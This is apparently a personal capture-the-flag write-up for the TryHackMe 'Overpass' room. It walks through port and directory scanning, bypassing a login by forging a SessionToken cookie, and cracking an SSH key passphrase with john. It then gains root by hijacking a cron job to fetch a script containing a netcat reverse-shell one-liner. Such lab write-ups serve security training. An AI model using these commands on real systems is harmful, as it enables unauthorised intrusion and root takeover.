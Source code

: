 ```yaml
---
title: "TryHackMe - Overpass"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/overpass.webp
categories: [Tryhackme, Easy]
tags: [cronjobs, cookies, web, john the ripper, ssh]
---
```


| Room       | [Overpass](https://tryhackme.com/room/overpass)            |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |

> description: What happens when some broke CompSci students make a password manager? I guess we are about to find out.
{: .prompt-tip }

This write up explains my approach towards solving overpass a tryhackme machine was testing on a bit of OWASP top 10, john and cron jobs.

## Let's begin
First we start with nmap scan using the command `sudo nmap -A -sV -T4 [target IP] -oN nmap.txt`. We find that only two ports are open, `22` and `80`. We know that port `22` runs SSH right? and port `80` is always http.
![image](/assets/img/Posts/overpass/nmap_overpass.webp)

So i went on and opened my browser and visited the website that is running on the machine at port `80` just by pasting the IP in the url tab.
![image](/assets/img/Posts/overpass/welcome_overpass.webp)
Navigating through the web, i found nothing juicy that i could use against the machine. So i went on and tried to scan for any hidden the directories using gobuster and found an /admin directory, wow!!
```bash
gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog
```
<!--![image](/assets/img/Posts/overpass/gobusteroverpass.webp)-->
we found a login for the admin user but we don’t have any hint on the username or password so far, what now? checking the code? yes, i found a javascript file `login.js`
![image](/assets/img/Posts/overpass/scripts_overpass.webp)

Going through its code, in the very bottom i saw a `login` function which seemed vulnerable and indeed it was. The if condition was checking for the valid credential. If incorrect, it was outputting `Incorrect Credentials`, but if correct, it was setting a Cookie named `SessionToken` and redirecting the user to `/admin`. I wondered if the server was actually validating the cookie and we can utilize that to our benefit by setting any cookie value and hopefully work.
![image](/assets/img/Posts/overpass/vulncode_overpass.webp)

So, there are to ways we can go about this,
First one is, we need to open the developer’s tools by right-clicking on the page and clicking the `inspect` option then we go to `storage` and choose `cookies` and press the `+` at the top right corner and change the name to `SessionToken` and the path to `/`

And the second is opening the console and and setting the cookie

```js
Cookies.set(“SessionToken”, 200)
```
When you are done, you reload the page and boom!!! you have the RSA key for user james as it is mentioned in the text.
![image](/assets/img/Posts/overpass/sshkey.webp)
![image](/assets/img/Posts/overpass/sshkey1.webp)

Copied the key and saved it in my host machine and don’t forget it is encrypted. So we use ss2john to convert it

```bash
ssh2john jamesid > james_id
```

and then crack the password

```bash
john james_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt
```
We get the passphrase and to login to the ssh account
![image](/assets/img/Posts/overpass/ssh2john_ovepass.webp)
## user flag
It is is right in the home directory, all you have to do is cat the user.txt file
```bash
cat user.txt
```

## root flag
To get the root flag we should become root user. How? lets see if there is something we can exploit to escalate our privileges

### privilege escalation

I decided to use linpeas (a linux privilege escalation automated script) from this page. i had to get it to the target machine from my host machine. So, i started server in my machine and used wget command in the target machine to download the file from my server

We change its mode to executable 
```bash
chmod +x linpeas.sh
```
and then execute it `./linpeas.sh`

and going through the log or the findings, the cron jobs section caught my eye. it looks like the machine is executing the buildscript.sh from the overpass.thm domain as root…really interesting!!!!!!

So we can change and imitate the directory to the script and change its contents to a reverse shell command and get the shell as root…woow!!.

lets get to it right away
![image](/assets/img/Posts/overpass/crontab_overpass.webp)
From that point, i simulated the `overpass.thm/downloads/src/buildscript.sh` by creating the directory `downloads` and within it, i created `src` and finally created the `buildscript.sh` file and placed a one liner reverse shell netcat command

```bash
mkdir downloads

cd downloads

mkdir src

cd src

nano buildscript.sh

and paste the netcat command in the created file

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourIP> 1234 >/tmp/f
```
make it executable
```bash
chmod +x buildscript.sh
```
and started a python server from the base directory where the the downloads dir is located `sudo python3 -m http.server 80`
and in the target machine i added my IP to the /etc/hosts file and with the domain overpass.thm
![image](/assets/img/Posts/overpass/target_hosts_file.webp)
we listen to port specified in the reverse shell command and patiently waited for the connection from the remote machine as root. yes!!!! we got the connection as root!!!

to get the flag
```bash
cat root.txt
```
![image](/assets/img/Posts/overpass/root_overpass.webp)

hope you enjoyed the write up!!. thank you 😁